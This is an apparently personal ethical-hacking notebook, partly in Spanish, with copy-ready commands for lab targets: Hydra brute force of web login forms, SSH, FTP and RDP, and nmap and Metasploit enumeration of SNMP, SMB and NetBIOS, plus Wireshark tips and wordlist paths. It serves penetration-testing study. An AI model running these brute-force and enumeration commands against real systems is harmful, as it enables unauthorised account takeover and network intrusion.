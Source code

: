 # EH-Notes

## Brute Force
### Hydra
#### HTTP Attacks
##### GET Form
`hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://192.168.57.132/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low:F=Username and/or password incorrect'`


`curl 'http://192.168.57.132/vulnerabilities/brute/?username=admin&password=admin&Login=Login#' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/vulnerabilities/brute/' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1'`

##### POST Form

`hydra -l admin -P /usr/share/wordlists/john.lst http-post-form://192.168.57.132/login.php:"username=^USER^&password=^PASS^&Login=Login":"Login failed"`

`curl 'http://192.168.57.132/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.57.132' -H 'Connection: keep-alive' -H 'Referer: http://192.168.57.132/login.php' -H 'Cookie: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=admin&password=admin&Login=Login'`

##### SSH 
`hydra -l root -P /home/kali/tools/pass.txt 192.168.57.131 ssh -t 4`

##### FTP
`hydra -t 3 -V -ensr -l root -P /usr/share/wordlists/john.lst 192.168.57.132 ftp`

## Services
### FTP
#### Login

`ftp IP`

`user`

`password`

#### Download files

`get file.txt`

### SNMP

Listar equipos con SNMP

`sudo nmap -sU -p 161 --script=snmp-info 192.168.100.0/24`

Informacion SNMP

`snmp-check IP-SNMP`

Procesos SNMP

`nmap -sU -p 161 --script=snmp-processes IP`

Interfaces SNMP

`nmap -sU -p 161 --script=snmp-interfaces IP`

String validos SNMP con metasploit

`msfdb init`

`msfconsole`

`search snmp`

`use auxiliary/scanner/snmp/snmp_login`

`SET RHOST IP-SNMP`

`run`


### SMB

#### Enumeracion

`nmap -p445 IP`

Enumerar carpetas compartidas

`nmap -p445 --script smb-enum-shares IP`

Enumerar usuarios

`nmap -p445 --script smb-enum-users IP`

`nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=password IP`

Enumerar grupos

`nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=password IP`

Enumerar niveles de seguridad

`nmap -sC -sV -A -T4 -p445 IP`

Enumerar servicios del dominio o equipo
`nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=password IP`

#### Acceder a traves de interfaz grafica

`smb://IP`

### RDP

#### Explotar servicio de RDP

Confirmar puerto de RDP con mestasploit ya que puede estar usando un puerto diferente

`use auxiliary/scanner/rdp/rdp_scanner`

`set RHOST IP`

`set RPORT PUERTO`

`exploit`

Realizar ataque de fuerza bruta con hydra

`hydra -l asus -P pass.txt rdp://192.168.100.55 -s 3389`

Realizar conexion RDP

`xfreerdp /u:USER /p:PASSWORD /v:IP:PORT`

`xfreerdp /u:USER /p:PASSWORD /v:192.168.100.55:3389`

### NETBIOS

`nmap -sV --script nbstat.nse 192.168.100.55`

## Traffic Sniffing

### Filtros Wireshark

`tcp.flags.sync==1`

Filtrar paquetes http

`http`

Seguimiento de paquetes 

`Seleccionar paquete >> Follow >> TCP Stream`

Extraer archivos

`File >> Export objects >> Service (HTTP,TCP,SMB)`

Buscar Strings

`Ctrl + F`

`Colocar palabra a buscar`

Denegacion de servicio

`Statics >> Conversations >> Pestana IPV4 >> Ordenar por bytes`




## Wordlist
`/usr/share/wordlists/metasploit]`

`/usr/share/wordlists/john.lst`

`/usr/share/wordlists`


